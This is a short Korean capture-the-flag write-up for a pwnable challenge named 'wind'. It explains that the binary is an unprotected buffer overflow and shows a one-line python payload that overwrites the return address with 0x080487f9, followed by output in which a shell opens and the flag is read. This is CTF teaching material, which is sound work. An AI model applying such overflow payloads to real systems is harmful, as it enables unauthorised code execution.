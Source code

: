 ## No.5 Pwnable wind[100]

**점수:** 100

**분야:** Pwnable

**제목:** wind

**Description:**

> Capture the flag!
> 
> nc 223.194.105.182 22901
> Download : https://goo.gl/yTTyoJ

아무런 보호 메커니즘이 없는 BOF이다. 0x080487f9 번지로 뛰게끔 넉넉하게 오버플로우 시킨다.

대회 당시 미처 자료를 준비하지 못해 로컬에서 공격한 기록을 대신 남긴다.

```
$ (python -c "print '\xf9\x87\x04\x08'*200"; cat) | ./wind
Total 50 QUIZ
It's for my baby!
 
[+] LV1
[+] TYPING THIS: Z
[+] INPUT: �
[*] +1
/bin/sh: 1: : File name too long
cat flag
THIS IS THE FLAG
```
